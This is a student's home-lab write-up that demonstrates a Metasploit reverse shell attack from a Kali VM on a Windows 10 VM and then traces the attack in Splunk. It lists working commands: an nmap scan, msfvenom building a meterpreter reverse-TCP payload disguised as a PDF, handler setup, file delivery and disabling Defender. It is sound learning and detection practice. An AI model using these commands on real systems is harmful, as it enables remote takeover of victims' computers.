  # MSF,Splunk and Reverse Shell Attack Demonstration

> MSF (Metsploit Framework) is an open-source tool that is used to create and run exploit code remotely onto target systems.

> Splunk is a big data platform that manages large volumes of data by searching for information within it and indexes it.

> A reverse shell attack is an attack where an attacker initiates a shell session on the target's comptuer and redirects the input and output so that the attacker can access it remoteley. From here, the attacker's opportunities are limitless as they can open ports to the target machine and allow for a complete takeover of the machine. 

## Overview

This project has two objectives; one is to demonstrate how hackers exploit ports and use MSF to carry out attacks such as the reverse shell attack, and the other is to view data from the target machine on Splunk and locate the cause of the attack. This will be done by creating two virtual machines, one running Kali Linux (the attacker machine) and the other running Windows 10 (the target machine). MSF will be used to create the payload on the Kali virtual machine `(VM)` and will be delivered to the Windows 10 VM using an .exe file, diguised as a .pdf. The exploit will then be executed and will create a shell window on the Kali machine, allowing for any command to be carried out using the CLI. Data and fields should then be visible on Splunk and would provide data to a security analyst to determine the cause of the attack.



## Purpose of a home lab
As a student who is aspiring to break into the cybersecurity field, I have learnt that hands-on experience is essential to be kept in the loop in this everchanging field. A home lab allows for me to test out real-world problems, experiment, understand how attacks occur and how to prevent them  in a safe, sandboxed environment. For this project, I will set up two virtual machines (one running Kali Linux and the other running Windows 10) and have one act as an attacker and the other as a target. I will try to gain access to the Windows virtual machine’s shell via a reverse shell attack. A reverse shell attack initiates a shell session and allows for the attacker to redirect the input and outputs of the shell so that it can be used by the attacker. The delivery method of this attack that I will use is an .exe file disguised as a .pdf.

## Expectation
* Create an infected file using MSF
* Launch a reverse shell attack on the target machine
* Analyse data in Splunk to determine the cause of the attack


## Steps followed
1.	First, I chose a hosted hypervisor. I chose Virtualbox because I was familiar with it and had previously used it.
2.	Next, I downloaded Kali Linux and the Windows 10 ISO from their respective websites and set them up on Virtualbox.
3.	I downloaded Sysmon and Splunk on the Windows 10 machine at this point as it still has a connection to the internet.
4.	Both virtual machines were then both configured to be part of their own internal network, meaning they could communicate with each other but did not have an active connection to the internet. Static IPs were set for each one.
5.	Creating infected file on Kali Linux VM using the terminal :

<br/><br/>

        “nmap -A {Windows 10 VM IP} -Pn “ – scans for any open ports on the target machine
        
        Returned that port 3389 was exposed
  
        “msfvenom -p windows/x64/meterpreter_reverse_tcp lhost={Kali VM IP} lport=4444 -f exe -o Report.pdf.exe” – this command specifies the payload of the attack (reverse tcp), specifies the host of the attack, the port and the file and it’s format.

<br/><br/>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture1.png">
</div>

<br/><br/>

  	     “msfconsole” -> “use exploit/multi/handler” -> “set payload windows/x64/meterpreter/reverse_tcp “ – sets the payload option
  	
        “exploit” – starts the handler
  	
        “python3 -m http.server 999” – allows for the Windows machine in the same network to access the infected file 

<br/><br/>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture2.png">
</div>

<br><br>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture3.png">
</div>

<br/><br/>

        Disable Windows Defender and open the file on the Windows VM

  	    Looking at the Kali machine should show that you are connected to the target and should allow you to execute commands on it 

<br/><br/>
 
<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture4.png">
</div>

<br/><br/>

7.	Access Splunk and create an index with the name ‘endpoint’

<br/><br/>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture5.png">
</div>

<br/><br/>

8.	Go to the search and reporting app on Splunk and type ‘index=”endpoint” {Kali IP Address}’ 

<br/><br/>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture6.png">
</div>

<br/><br/>
 
9.	Looking at the fields, we can see that the Kali Linux machine is accessing a port, which would be something of interest to investigate.

<br/><br/>

<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture7.png">
</div>

<br/><br/>
 
10.	Looking further into the event IDs, we can see that the issue comes from the Report.pdf.exe.

<br/><br/>
 
<div align="center">
  <img src="https://github.com/JaskaranM/Jaskaran-Porfolio/blob/main/images/Picture8.png">
</div>


<br/><br/>

This was a simple demonstration of how exploits can be used to target exposed ports, how malware can take control of a victim’s computer and how tools like Splunk can be used to detect unusual events which can allow for the user to take action and solve the problem.


## Next Steps

From here, the analyst can use the data in Splunk to determine the source of the attack and can block the IP address to prevent further attacks from that IP. Splunk could be seamlessly integrated into a SOAR (Security Orchestration, Automation and Response) where the data is used to automate the blocking of IPs and stopping the attack. Tools such as The Hive could be used to facilitate this and allow for the automation where the analyst is sent an email, prompting them for a response.
